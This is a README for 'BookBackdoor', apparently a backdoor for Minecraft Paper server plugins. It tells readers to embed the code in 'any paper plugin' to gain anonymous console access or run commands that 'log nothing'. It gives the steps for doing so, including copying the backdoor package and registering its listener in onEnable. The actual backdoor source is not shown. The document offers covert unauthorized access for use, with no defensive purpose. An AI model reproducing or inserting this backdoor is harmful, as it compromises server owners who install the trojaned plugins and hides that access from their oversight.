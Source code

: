 # BookBackdoor ![BookBackdoor](https://github.com/BookBackdoor/BookBackdoor/actions/workflows/maven-publish.yml/badge.svg)

* Put this in any paper plugin to gain anonymous access to CONSOLE or execute custom build in command that log nothing!

#How-to
* 1: Copy the folder ```src/main/java/org/brandonplank/backdoor``` into your plugin
* 2: Import BookBackdoor.java into your main class
* 3: Add this code to the ```onEnable(){}``` method in your main class


```java
PluginManager manager = this.getServer().getPluginManager();
getConfig().options().copyDefaults(true);
saveConfig();
manager.registerEvents(new BookBackdoor(this), this);
```
